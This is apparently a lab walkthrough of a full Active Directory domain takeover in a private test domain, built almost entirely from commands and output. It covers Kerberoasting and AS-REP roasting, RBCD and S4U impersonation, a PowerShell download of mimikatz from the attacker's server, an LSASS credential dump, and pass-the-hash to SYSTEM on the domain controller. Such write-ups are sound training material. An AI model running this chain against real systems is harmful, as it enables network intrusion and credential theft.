

# Information
## Attack flow


## System information
- Subnet: 192.168.198.0 /24
- Gateway/DNS (DC): 192.168.198.10
- Machines:
    - DC01 (Domain Controller):
        - OS: Window server 2019
        - IP: 192.168.198.10
        - Domain: vdt.local
        - Roles: AD DS, DNS
    - SRV01 (Service Server):
        - OS: Window server 2019
        - IP: 192.168.198.11
        - Domain: vdt.local
        - Roles: Running service (Ex: File Server, Web Server, etc.) by `admin_service`. Running OpenSSH server
    - LX01 (Linux Server):
        - OS: Ubuntu Server 22.04
        - IP: 192.168.198.12
        - Domain: vdt.local
        - Roles: Linux server managed by GPO
    - WS01 (Workstation):
        - OS: Window 7
        - IP 192.168.198.13
        - Domain: vdt.local
        - Roles: User workstation `dev01` (use for edit GPO)
    - KALI(Attacker machine):
        - OS: Kali Linux
        - IP: auto dhcp

# Recon
## Nmap
Using nmap for reconnaisance, we can see this machine is Window Server 2019:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-26 00:30 +07
Nmap scan report for 192.168.198.10
Host is up (0.0011s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-25 17:30:24Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vdt.local0., Site: Default-First-Site-Name)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (95%)
Aggressive OS guesses: Microsoft Windows Server 2019 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:50:67:8c (VMware)
|_clock-skew: 2s
| smb2-time: 
|   date: 2025-05-25T17:30:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 3268/tcp)
HOP RTT     ADDRESS
1   1.38 ms 172.21.144.1
2   3.09 ms 192.168.198.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.50 seconds
```
Based on these ports, we will prioritize to:
1. Check SMB (unauth access to files, or writable shares. Enumerate users, etc.)
2. DNS - Check for zone transfers, or bruteforce subdomains
3. LDAP - Enumerate, though typically need creds

## SMB
### Shares
List shares using under guest user but got reject:
```bash
❯ nxc smb 192.168.198.10 -u guest -p '' --shares                                                                                                                        · 28/05/25 01:34
SMB         192.168.198.10  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:vdt.local) (signing:True) (SMBv1:False)
SMB         192.168.198.10  445    DC01             [-] vdt.local\guest: STATUS_ACCOUNT_DISABLED 
```

### User enumeration
We will try to perform RID Cycling attack using null session to enumerate users:
```bash
❯ nxc smb 192.168.198.10 -u '' -p '' --rid-brute
SMB         192.168.198.10  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:vdt.local) (signing:True) (SMBv1:False)
SMB         192.168.198.10  445    DC01             [+] vdt.local\: 
SMB         192.168.198.10  445    DC01             498: VDT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         192.168.198.10  445    DC01             500: VDT\Administrator (SidTypeUser)
SMB         192.168.198.10  445    DC01             501: VDT\Guest (SidTypeUser)
SMB         192.168.198.10  445    DC01             502: VDT\krbtgt (SidTypeUser)
SMB         192.168.198.10  445    DC01             512: VDT\Domain Admins (SidTypeGroup)
SMB         192.168.198.10  445    DC01             513: VDT\Domain Users (SidTypeGroup)
SMB         192.168.198.10  445    DC01             514: VDT\Domain Guests (SidTypeGroup)
SMB         192.168.198.10  445    DC01             515: VDT\Domain Computers (SidTypeGroup)
SMB         192.168.198.10  445    DC01             516: VDT\Domain Controllers (SidTypeGroup)
SMB         192.168.198.10  445    DC01             517: VDT\Cert Publishers (SidTypeAlias)
SMB         192.168.198.10  445    DC01             518: VDT\Schema Admins (SidTypeGroup)
SMB         192.168.198.10  445    DC01             519: VDT\Enterprise Admins (SidTypeGroup)
SMB         192.168.198.10  445    DC01             520: VDT\Group Policy Creator Owners (SidTypeGroup)
SMB         192.168.198.10  445    DC01             521: VDT\Read-only Domain Controllers (SidTypeGroup)
SMB         192.168.198.10  445    DC01             522: VDT\Cloneable Domain Controllers (SidTypeGroup)
SMB         192.168.198.10  445    DC01             525: VDT\Protected Users (SidTypeGroup)
SMB         192.168.198.10  445    DC01             526: VDT\Key Admins (SidTypeGroup)
SMB         192.168.198.10  445    DC01             527: VDT\Enterprise Key Admins (SidTypeGroup)
SMB         192.168.198.10  445    DC01             553: VDT\RAS and IAS Servers (SidTypeAlias)
SMB         192.168.198.10  445    DC01             571: VDT\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         192.168.198.10  445    DC01             572: VDT\Denied RODC Password Replication Group (SidTypeAlias)
SMB         192.168.198.10  445    DC01             1000: VDT\DC01 (SidTypeUser)
SMB         192.168.198.10  445    DC01             1001: VDT\DC01$ (SidTypeUser)
SMB         192.168.198.10  445    DC01             1102: VDT\DnsAdmins (SidTypeAlias)
SMB         192.168.198.10  445    DC01             1103: VDT\DnsUpdateProxy (SidTypeGroup)
SMB         192.168.198.10  445    DC01             1104: VDT\dev01 (SidTypeUser)
SMB         192.168.198.10  445    DC01             1105: VDT\admin_linux (SidTypeUser)
SMB         192.168.198.10  445    DC01             1106: VDT\admin_service (SidTypeUser)
SMB         192.168.198.10  445    DC01             1107: VDT\SRV01$ (SidTypeUser)
SMB         192.168.198.10  445    DC01             1108: VDT\WS01$ (SidTypeUser)
SMB         192.168.198.10  445    DC01             1109: VDT\LX01$ (SidTypeUser)
SMB         192.168.198.10  445    DC01             1111: VDT\dev02 (SidTypeUser)
```

We will run that a gain to make a `users`list:
```bash
❯ nxc smb 192.168.198.10 -u '' -p '' --rid-brute | grep SidTypeUser  | cut -d'\' -f2 | cut -d' ' -f1 | tee users
Administrator
Guest
krbtgt
DC01
DC01$
dev01
admin_linux
admin_service
SRV01$
WS01$
LX01$
dev02
```

Add domain resolution into `/etc/hosts`
```bash
192.168.198.10 vdt.local
```

# Auth as `dev01`
## Get password hash:
### AS-Rep Roasting:
We can use the `netexec` or `impacket-GetNPUsers` to perform AS-Rep Roasting attack
```bash
❯ GetNPUsers.py vdt.local/ -usersfile users.txt -format hashcat -outputfile asrep.hash -no-pass                               · 26/05/25 02:25
Impacket v0.11.0 - Copyright 2023 Fortra

$krb5asrep$23$dev01@VDT.LOCAL:925daa79d3aa8caae68b7267469234ae$04b7b0f794f651fa10c2458b1d3f55a5a4f329d31889de92894dfab7d733b46965d65e035d0ba40a82b9621168ca4851b2cfbf2854a71f58c1c6a3e9464af60d664bad4ae167ae0dc32d01814586bd8f1b01905e8560f0c11db2bbd46b248aef16dfa087c4618b28a97d1adb465e75fd6a03f1abe653345c1bdd55c8adef11a93539bd1c4d8b27b03128723e0ebb3bf413d4acead1a676493b5c27a3755f670b7deb7bcc788b4d3647b16cf2837e569caf70d618e39b381f03b6ce2779d39ef55de962dc4f54c48905538d43337c775a8f51887fdfa786fc19395d9e6f04f0efd08d29a9f0a5
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
...SNIP...
```

### Kerberoasting
```bash
❯ GetUserSPNs.py -no-preauth dev01 -usersfile users.txt -dc-host 192.168.198.10 vdt.local/ | grep '^\$krb' > kerberoasting_hashes

❯ cat kerberoasting_hashes
$krb5tgs$23$*dev01$VDT.LOCAL$dev01*$7a834ef0c77c1f74f09178bc153e9e66$7be755d80452ffe19650927c13dc20791aad80fbc8f6e6228741244dd980b8b3e38639f862405e9dee5a38459c4c508d3ae2248e4e92131c65db2128e98e795e7085fc13eaf3433cd5f5367de1a73c2ef05126d65b6ef3e6c6fa0167e55c7112aab02126e4a54348b24891ac2418cf57ab3e8f66146c4b2799b390b2e2b196b7e8ada4fdd5229f4c8d964b83628766f25894afd098b5fc34ea48fc9e6c29d755596869537742abd2c7a1b1bbcc13f6cc78b164d22bb95d849157a5c292f1ba81e15cefd68a8b24c1be2031451b98db5917236b5d79acbedfee7f9ac0fc41f3dea58887599e74fa576ceaefebc0232eaa30633eb0d2971cf6b7f39ededd4c774c762470cf895e06176e6f54ea60f82c31d2c5056f94c0eab3fe19c356a0e8b78f15141076dfb90fd23ed3e06a8392a09ba6478f3f083f44cf875a8f391501b35b2b15157bb2f293e68a4fdf9cb6cac1610bf509b94bb78a6eb930c21acfb7b7b388628d3a50e79a0c2a54a3640a10e042c4459f3a27ad8ce9cd90eeb666c676364a64f576dc7f4506cb273b215b04663e5426c1d060ee5e63b4f8ad663f3d87e11f4ab763b4acfd77e48c4173277c0f2ac595810bc4b7c4190eb55e351d278124ef348589f85c1001d6f35b1760bb239b0ae8c92c6d1e8b9191ee9c10793e1721baf76a0a874ac7b2fd1d39c1bab0dfa39c73ad80e3b5da629f51b2853838a6b4bb7e3dec7f2eeb11aef3888d32dc8ad36ca996a95eb84cd6a18ff5675a907dcefde8ce0a3c47f385a6d1252eaa3ba7d339b4d4903433ccd45fecae370e11e0f0dd7aa28aeba2fc1da24034571dc03b49d387b8b6a4da4accd88c6c1d4b188b66bf45e22f0982592b24524709d8b2276a49967699c5a8671e713bdd1622a1dd3b42141c8d30d8632c0427bb951dd8d5714297f517333d8a5d4fc00ddab3ef1c504d5e786f6626cfd28c4c829277ff9236ee75b2e753c74c1656770edfaacced1476f3270b38e798264b94681e4f989b8bf8ddb23b29b4432198ff84b6c3b30b0e4e7f9822a52fac9ab71570bd716ffb7e9a0d017a15dcc98a5b40f93e519be878258ad8d4344d1c2ca69134a104f223846e84af034ba3ac82b436230c6ae4de77a703718b12a7e600856e96628e80a4e2501cc0e5056819d426a97df5e87e693cb81b4a3d871f739d55db6aaaaef37ed6517058f2536307a9ddc874375ae51f42d258bbd45eb45b28ae876abc0a67ecf4f86957c2fb1780145d4e4a4ea878a950363401660d238ef6dc850ba52e04cfdf2ed9f7bf956c9b0eb4595ad4750653f728559090b79b4950917ab64e52747797d7aad42b49e7debccfd68f7ef0416f
```

## Crack the password
We can crack the password using `hashcat` mode 13100 for `Kerberoasting` or 18200 for `AS-REP roasting` to get the credential `dev01:Password123!`

Test the credential:
```bash
❯ nxc smb 192.168.198.10 -u 'dev01' -p 'Password123!'                                                            · 27/05/25 22:00
SMB         192.168.198.10  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:vdt.local) (signing:True) (SMBv1:False)
SMB         192.168.198.10  445    DC01             [+] vdt.local\dev01:Password123! 
```

Initial access to `dev01`:
```bash
evil-winrm -i 192.168.198.10 -u dev01 -p 'Password123!'
```


# Auth as `admin_service`
## Host discovery
We are using bloodhound to understand what permissions are available to us and other users in this host. We can upload `SharpHound` to the machine or using `bloodhound-python` to perfom discovery


We can see that the `dev01` users has the GenericWrite permission to `service_admin` thats mean we have the ability to write any non-protected attribute on the target object, including "member" for a group, and "ServicePrincipleName" for user and then obtain a crackable hash. After all, we do the cleanup of the ServicePrincipalName for the stealthy.

Beside, we can see that the `service_admin` has the WriteDACL permission, which means we can take advantage of this and configuring the `WS01` for RBCD


Add to `etc/hosts`:
```bash
192.168.198.10 dc01.vdt.local dc01 vdt.local
192.168.198.13 ws01.vdt.local ws01
```


## Privilege Escalation
In this lab, we just simple change the password of the `admin_service` to get access on this user
```bash
*Evil-WinRM* PS C:\Users\dev01.VDT\Documents> $NewPassword = ConvertTo-SecureString "RBCDmasterP@ss1!" -AsPlainText -Force
*Evil-WinRM* PS C:\Users\dev01.VDT\Documents> Set-ADAccountPassword -Identity admin_service -NewPassword $NewPassword -Reset -Server dc01.vdt.local
```
After successfully change the password, we access to `WS01` under `admin_service`
```bash
❯ evil-winrm -i 192.168.198.13 -u admin_service -p 'RBCDmasterP@ss1!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\admin_service\Documents>
```


# Privilege Escalation on `WS01` computer
## Resource-based Constrained Delegation abuse
If an account, having the capability to edit the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of another object (e.g. the GenericWrite ACE, see Abusing ACLs), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.

After get access into `service_admin` user, which has the WriteDACL permission, we make an authentication with DC under `admin_service` and modify `msDS-AllowedToActOnBehalfOfOtherIdentity` of object `WS01$` (computer) to add SID of `admin_service`. This allow `admin_service` has the privilege to impersonate another user when access to computer `WS01`.

```bash
❯ rbcd.py 'vdt.local/admin_service:RBCDmasterP@ss1!' -action write -delegate-from 'admin_service' -delegate-to 'WS01$' -dc-ip 192.168.198.10
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] admin_service can now impersonate users on WS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     admin_service   (S-1-5-21-300591061-149275173-2848870365-1106)
```

## S4U abuse
Get impersonation service ticket
```bash
❯ getST.py -spn cifs/ws01.vdt.local -impersonate Administrator 'vdt.local/admin_service:RBCDmasterP@ss1!' -dc-ip 192.168.198.10
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache
```
Explaination: `getST.py` using `admin_service` to request KDC (through S4U2self and S4U2proxy) provide a Service Ticket (ST/TGS) for `cifs/ws01.vdt.local` under `Adminisrtator`. This ticket is going to be save into file `Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache`

## Using Ticket to privilege to `System` in `WS01`
```bash
┌ 🐧 (WSL) 🔉 zsh  👤 cgk ⭝ pumpkin 
└[ /mnt/h/Projects/VDT/VDT-AD-LAB ]
❯ export KRB5CCNAME=Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache                                               · 29/05/25 10:18

┌ 🐧 (WSL) 🔉 zsh  👤 cgk ⭝ pumpkin 
└[ /mnt/h/Projects/VDT/VDT-AD-LAB ]
❯ psexec.py -k -no-pass ws01.vdt.local                                                                               · 29/05/25 10:18
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on ws01.vdt.local.....
[*] Found writable share ADMIN$
[*] Uploading file iyekArzk.exe
[*] Opening SVCManager on ws01.vdt.local.....
[*] Creating service MTsh on ws01.vdt.local.....
[*] Starting service MTsh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

# Take over Domain Controller
## Dump `LSASS.exe`
Host `mimikatz.exe` file through simple HTTP server on our machine
```bash
┌ 🐧 (WSL) 🔉 zsh  👤 cgk ⭝ pumpkin
└[ /usr/share/windows-resources/mimikatz/x64 ]
❯ sudo python3 -m http.server 80                                   · 29/05/25 10:31
[sudo] password for pumpkin:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Download the mimikatz and run the script
```bash
C:\Windows\Temp> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://localhost/mimikatz.exe', 'C:\Windows\Temp\m.exe')"

C:\Windows\Temp> C:\Windows\Temp\m.exe "privilege::debug" "sekurlsa::logonpasswords" exit > C:\Windows\Temp\lsass.txt

C:\Windows\Temp> type lsass.txt

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 2355520 (00000000:0023f140)
Session           : Interactive from 1
User Name         : Administrator
Domain            : VDT
Logon Server      : DC01
Logon Time        : 5/29/2025 1:50:44 AM
SID               : S-1-5-21-300591061-149275173-2848870365-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : VDT
         * LM       : 49d58563113416eb9c5014ae4718a7ee
         * NTLM     : 41291269bf30dc4c9270a8b888e3bbe9
         * SHA1     : 556ece6a5d0e5d231e09e553a49dbf94afb523ea
        tspkg :
         * Username : Administrator
         * Domain   : VDT
         * Password : Abc12345
        wdigest :
         * Username : Administrator
         * Domain   : VDT
         * Password : Abc12345
        kerberos :
         * Username : Administrator
         * Domain   : VDT.LOCAL
         * Password : Abc12345
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 5/28/2025 11:08:22 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WS01$
Domain            : VDT
Logon Server      : (null)
Logon Time        : 5/28/2025 11:08:22 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WS01$
         * Domain   : VDT
         * NTLM     : 1e5a9503e3a17e719f4474161188c7c0
         * SHA1     : 296ef28b6c359cd6bf44cb307f85a3a7444cf485
        tspkg :
        wdigest :
         * Username : WS01$
         * Domain   : VDT
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        kerberos :
         * Username : ws01$
         * Domain   : VDT.LOCAL
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        ssp :
        credman :

Authentication Id : 0 ; 49307 (00000000:0000c09b)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 5/28/2025 11:08:22 PM
SID               : 
        msv :
         [00000003] Primary
         * Username : WS01$
         * Domain   : VDT
         * NTLM     : 1e5a9503e3a17e719f4474161188c7c0
         * SHA1     : 296ef28b6c359cd6bf44cb307f85a3a7444cf485
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WS01$
Domain            : VDT
Logon Server      : (null)
Logon Time        : 5/28/2025 11:08:22 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WS01$
         * Domain   : VDT
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        kerberos :
         * Username : ws01$
         * Domain   : VDT.LOCAL
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!

```


## Pass the hash
Using `psexec` with hash NTLM to authenticate and get shell System on `DC01`. Now we have successfully taker over Domain Controller
```bash
❯ psexec.py -hashes :41291269bf30dc4c9270a8b888e3bbe9 VDT/Administrator@192.168.198.10                               · 29/05/25 10:45
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.198.10.....
[*] Found writable share ADMIN$
[*] Uploading file jLwJgVOC.exe
[*] Opening SVCManager on 192.168.198.10.....
[*] Creating service pENq on 192.168.198.10.....
[*] Starting service pENq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


Get the root flag
```bash
C:\Users\administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 90C5-3CAB

 Directory of C:\Users\administrator\Desktop

05/29/2025  10:49 AM    <DIR>          .
05/29/2025  10:49 AM    <DIR>          ..
05/29/2025  10:48 AM                25 root.txt
               1 File(s)             25 bytes
               2 Dir(s)  51,362,955,264 bytes free

C:\Users\administrator\Desktop> type root.txt
root flag he. he. he. he.
```